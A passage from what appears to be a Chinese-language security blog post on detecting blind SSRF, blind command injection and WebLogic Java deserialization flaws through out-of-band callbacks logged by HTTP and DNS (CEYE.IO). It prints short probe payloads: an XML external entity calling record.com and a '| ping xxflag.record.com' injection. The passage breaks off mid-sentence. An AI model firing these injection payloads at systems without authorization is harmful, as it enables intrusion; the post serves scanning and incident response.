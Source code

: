 根据上面两个例子，熟悉 SSRF 的同学肯定也是知道怎么玩了：

```
payload: "... <!ENTITY test SYSTEM "http://record.com/?blindssrf"> ..."
condition: {http://record.com/?blindssrf LOG} in HTTP requests LOGs
```

##### iv. RCE（无回显）

命令执行/命令注入这个得好好说一下，我相信很多同学都懂得在命令执行无法回显的时候借用类似 `python -m SimpleHTTPServer` 这样的环境，采用回连的检测机制来实时监控访问日志。*nix 系统环境下一般是使用 `curl` 命令或者 `wget` 命令，而 windows 系统环境就没有这么方便的命令去直接访问一个链接，我之前常用的是 `ftp` 命令和 PowerShell 中的文件下载来访问日志服务器。现在，有了一个比较通用的做法同时兼顾 *nix 和 windows 平台，那就是 `ping` 命令，当 ping 一个域名时会对其进行一个递归 DNS 查询的过程，这个时候就能在后端获取到 DNS 的查询请求，当命令真正被执行且平台收到回显时就能说明漏洞确实存在。

```
payload: "... | ping xxflag.record.com ..."
condition: {xxflag.record.com LOG} in DNS queries LOGs
```

![]({{ site.url }}/public/img/article/2016-06-01-how-to-scan-and-check-vulnerabilities/12.png)

通过这几个 "间接判断" 的示例，相信大家也大概了解了在漏洞无回显的情况下如何进行扫描和检测了。更多的无回显 Payloads 可以通过 [http://ceye.io/payloads](http://ceye.io/payloads) 进行查看。（勿喷）

### 应急实战举例

原理和例子扯了这么多，也该上上实际的扫描检测案例了。

#### Java 反序列化（通用性举例，ftp/ping）

首先说说 15 年底爆发的 Java 反序列化漏洞吧，这个漏洞应该算得上是 15 年 Web 漏洞之最了。记得当时应急进行扫描的时候，WebLogic 回显 PoC 并没有搞定，对其进行扫描检测的时候使用了回连的方式进行判断，又因为待测目标包含 *nix 和 windows 环境，所以是写了两个不同的 Payloads 对不同的系统环境进行检测，当时扫描代码的 Payloads 生成部分为：

**i. *nix**

![]({{ site.url }}/public/img/article/2016-06-01-how-to-scan-and-check-vulnerabilities/13.png)

当时真实的日志内容：

![]({{ site.url }}/public/img/article/2016-06-01-how-to-scan-and-check-vulnerabilities/14.png)

可以看到我在构造 Payload 的时候通过链接参数来唯一识别每一次测试的 IP 地址和端口，这样在检查访问日志的时候就能确定该条记录是来自于哪一个测试目标（因为入口 IP 和出口 IP 可能不一致），同时在进行批量扫描的时候也能方便进行目标确认和日志处理。

**ii. windows**

![]({{ site.url }}/public/img/article/2016-06-01-how-to-scan-and-check-vulnerabilities/15.png)

当时真实的日志内容：

![]({{ site.url }}/public/img/article/2016-06-01-how-to-scan-and-check-vulnerabilities/16.png)

因为 windows 上的 `ftp` 命令无法带类似参数一样的标志，所以通过观察 FTP Server 连接日志上不是很好确认当时测试的目标，因为入口 IP 和出口 IP 有时不一致。

上面的这些 PoC 和日志截图都是去年在应急时真实留下来的，回想当时再结合目前的一些知识，发现使用通用的 Payload `ping xxxxx.record.com` 并使用 "Data Retrieval over DNS" 技术来收集信息日志能够更为通用方便地进行检测和扫描。所以，最近更换了一下 Payload 结合 CEYE.IO 平台又对 WebLogic 反序列化漏洞的影响情况又进行了一次摸底：
